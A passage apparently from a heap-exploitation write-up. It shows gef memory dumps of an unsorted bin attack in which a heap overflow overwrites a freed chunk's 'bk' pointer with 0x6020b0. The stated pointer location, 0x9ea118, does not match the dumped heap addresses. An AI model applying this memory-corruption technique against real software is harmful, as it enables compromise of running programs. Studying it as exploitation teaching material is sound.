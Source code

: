 ```
0x1e23160:  0x0 0x0
0x1e23170:  0x0 0x0
0x1e23180:  0x0 0x0
0x1e23190:  0x0 0x0
0x1e231a0:  0x0 0x0
0x1e231b0:  0x0 0x0
0x1e231c0:  0x0 0x0
0x1e231d0:  0x0 0x0
0x1e231e0:  0x0 0x0
0x1e231f0:  0x0 0x0
0x1e23200:  0x100 0x40
0x1e23210:  0x3832373533393530  0x0
0x1e23220:  0x0 0x0
0x1e23230:  0x0 0x0
0x1e23240:  0x0 0x20dc1
0x1e23250:  0x0 0x0
0x1e23260:  0x0 0x0
0x1e23270:  0x0 0x0
0x1e23280:  0x0 0x0
0x1e23290:  0x0 0x0
0x1e232a0:  0x0 0x0
0x1e232b0:  0x0 0x0
0x1e232c0:  0x0 0x0
0x1e232d0:  0x0 0x0
0x1e232e0:  0x0 0x0
0x1e232f0:  0x0 0x0
0x1e23300:  0x0 0x0
0x1e23310:  0x0 0x0
```

So we can see that the second chunk is now in the unsorted bin. Next up we will leverage the heap overflow bug using the first chunk to overwrite the `bk` pointer at `0x9ea118` to be `0x6020c0 - 0x10 = 0x6020b0`:

```
gef➤  x/100g 0x1e23000
0x1e23000:  0x0 0x101
0x1e23010:  0x3030303030303030  0x3030303030303030
0x1e23020:  0x3030303030303030  0x3030303030303030
0x1e23030:  0x3030303030303030  0x3030303030303030
0x1e23040:  0x3030303030303030  0x3030303030303030
0x1e23050:  0x3030303030303030  0x3030303030303030
0x1e23060:  0x3030303030303030  0x3030303030303030
0x1e23070:  0x3030303030303030  0x3030303030303030
0x1e23080:  0x3030303030303030  0x3030303030303030
0x1e23090:  0x3030303030303030  0x3030303030303030
0x1e230a0:  0x3030303030303030  0x3030303030303030
0x1e230b0:  0x3030303030303030  0x3030303030303030
0x1e230c0:  0x3030303030303030  0x3030303030303030
0x1e230d0:  0x3030303030303030  0x3030303030303030
0x1e230e0:  0x3030303030303030  0x3030303030303030
0x1e230f0:  0x3030303030303030  0x3030303030303030
0x1e23100:  0x3030303030303030  0x101
0x1e23110:  0x3131313131313131  0x6020b0
0x1e23120:  0x0 0x0
0x1e23130:  0x0 0x0
0x1e23140:  0x0 0x0
0x1e23150:  0x0 0x0
0x1e23160:  0x0 0x0
0x1e23170:  0x0 0x0
0x1e23180:  0x0 0x0
0x1e23190:  0x0 0x0
0x1e231a0:  0x0 0x0
0x1e231b0:  0x0 0x0
```